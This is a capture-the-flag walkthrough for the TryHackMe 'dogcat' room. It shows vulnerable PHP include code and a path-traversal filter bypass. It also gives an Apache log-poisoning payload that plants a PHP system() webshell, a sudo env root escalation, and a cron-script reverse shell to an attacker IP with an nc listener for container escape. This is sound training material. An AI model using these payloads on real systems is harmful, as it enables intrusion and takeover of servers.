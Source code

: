 # dogcat Writeup
https://tryhackme.com/room/dogcat


## Flag 1

First I navigate to the website running on the endpoint. The hint led me to believe that messing around with the view parameter was a good place to start. After trying different things it became obvious that they were filtering for the words cat or dog. The trick I used to get around this was:
```
?view=./dog/../../../../../../../SOME FILE
```
This is the source code filtering the requests.
* It checks for '.php' extension and adds it if missing
* It checks if view parameter includes either cat or dog
```
    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
```

After doing some research and manual checking of common files I came acrossed access.log.
```
?view=./dog/../../../../../../../var/log/apache2/access.log&ext
```
* Include the 'ext' so that it won't add the php extension to the end.

The access.log included ip, time, request, and user-agent information. I sent a modified request where I made the user-agent = `<?php system($_GET['cmd']);?>` This way when we navigate to access.log we can pass in a parameter 'cmd' which will execute commands on the system.

```?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=whoami```


I found a great blog post about log poisoning on apache servers with LFI [here](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/). I used the same metasploit module as well.

![alt text](https://github.com/nickswink/Dogcat-Writeup/blob/main/metasploit.PNG?raw=true)

* After this we drop in as user www-data and the first flag is in our current directory. 





## Flag 2

The second flag was pretty easy to find which was just a directory up.






## Flag 3 

The flag was in the root directory which we need root permissions for. After some quick manual enumeration I found that we are able to run /usr/bin/env without a password.

```
sudo -l 
Matching Defaults entries for www-data on 5d7fb280ac0c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 5d7fb280ac0c:
    (root) NOPASSWD: /usr/bin/env
```
A quick visit to [GTFOBins](https://gtfobins.github.io/gtfobins/env/) and we can run `sudo env /bin/sh` and Boom! We are root! Navigate to /root to read flag3.txt





## Flag 4

Honestly I had no idea how to get flag 4. You need to escape the docker container that you are in which was a new concept for me.

Navigate to /opt/backups

```
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/<YOUR-IP>/1234 0>&1'" >> backup.sh
```

On attacker machine:
```
nc -lnvp 1234
```

backup.sh runs frequently on the parent machine and will send you a priviledged parent shell when it does and the last flag is right there.
